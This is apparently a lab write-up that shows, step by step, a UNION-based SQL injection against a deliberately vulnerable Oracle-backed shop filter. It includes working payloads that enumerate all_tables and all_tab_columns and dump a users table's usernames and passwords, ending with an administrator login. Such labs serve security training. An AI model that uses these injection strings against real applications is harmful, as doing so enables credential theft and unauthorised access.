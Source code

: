# Lab: SQL injection attack, listing the database contents on Oracle

## Description

* This lab contains an SQL injection vulnerability in the product category filter. The results from the query are returned in the application's response so you can use a UNION attack to retrieve data from other tables. *
*  The application has a login function, and the database contains a table that holds usernames and passwords. You need to determine the name of this table and the columns it contains, then retrieve the contents of the table to obtain the username and password of all users. *
*   To solve the lab, log in as the administrator user. *

## HINT

*On Oracle databases, every SELECT statement must specify a table to select FROM. If your UNION SELECT attack does not query from a table, you will still need to include the FROM keyword followed by a valid table name. *

*There is a built-in table on Oracle called dual which you can use for this purpose. For example: UNION SELECT 'abc' FROM dual* 
 
---

# STEP 1: Verify SQLi

Normal function of the catagory filter with the Gifts parameter

![image](https://user-images.githubusercontent.com/83407557/169707099-dd9392f2-58cd-47bd-b61f-2e9f7c69e046.png)

With a single quote

![image](https://user-images.githubusercontent.com/83407557/169707113-c9f09ea0-828a-4f44-a0ce-085f866a1a98.png)

and then with a comment

![image](https://user-images.githubusercontent.com/83407557/169707129-b88ddd3f-e529-4b6b-b28a-58511f6ae009.png)

---
# STEP 2: Determine the number of columns

Because I already know this is an Oracle database I can use the dual table as per the hint:

```sql
UNION SELECT NULL FROM dual
```

## Testing for a single column

![image](https://user-images.githubusercontent.com/83407557/169707224-330c73ea-50d5-43c9-834d-7f2284384010.png)

## Testing for 2 columns

![image](https://user-images.githubusercontent.com/83407557/169707265-425e6751-2364-4427-aa98-854a351ac0f3.png)

This tells me that there are 2 columns being returned in the query

---

# STEP 3: Determine which columns return string data

## Testing column 1

![image](https://user-images.githubusercontent.com/83407557/169707313-0552b0ba-8a0c-41af-915e-554a8bc01e48.png)

It does

## Testing for column 2

It also returns string data

![image](https://user-images.githubusercontent.com/83407557/169707339-8077469e-4b66-451d-96d7-6e14b8e3b5b4.png)

So either column will return string data

---

# STEP 4: Get a list of tables in the database

In oracle:

```sql
 SELECT * FROM all_tables
 
 or
 
 SELECT table_name FROM all_tables
 ```
 
 So to build the attack query:
 
 ```sql
 'UNION SELECT 'table name', table_name FROM all_tables--
 ```
 And then searching through the table names on the page, I find one I want to target: USERS_VPLXQY

 
 ![image](https://user-images.githubusercontent.com/83407557/169707658-70a95796-3995-4869-af98-ef6ce80576ab.png)

# STEP 5: Get a list of columns in the table USERS_VPLXQY

Since I know the table name, I can list the columns within that table with the following sql statement:

```sql
 SELECT column_name FROM all_tab_columns WHERE table_name = 'USERS_VPLXQY' 
```

making the attack string

```sql
'UNION SELECT 'column name', column_name FROM all_tab_columns WHERE table_name = 'USERS_VPLXQY'--
```

And showing me the 2 columns PASSWORD_NIFASY and USERNAME_WNHNIW

![image](https://user-images.githubusercontent.com/83407557/169707992-52fd8ac4-e6e4-4b3a-9692-13433958eaf1.png)

# STEP 6: List users_vplxqy table rows

to list the row we need the table name and the column names which we have:

```sql
SELECT USERNAME_WNHNIW, PASSWORD_NIFASY FROM USERS_VPLXQY
```
making the attack 

```sql
'UNION SELECT USERNAME_WNHNIW, PASSWORD_NIFASY FROM USERS_VPLXQY--
```

![image](https://user-images.githubusercontent.com/83407557/169708154-ba0a3445-d011-4954-94e6-59fb6b948e7b.png)

---

# STEP 7: Log in as administrator

Since I found the password z2njdwm0dct95s5slqav inside the Oracle DB, I can use it to log in normally in my browser:

![image](https://user-images.githubusercontent.com/83407557/169708203-ac21dc68-ad3c-4ce6-9df0-f771220c36c8.png)
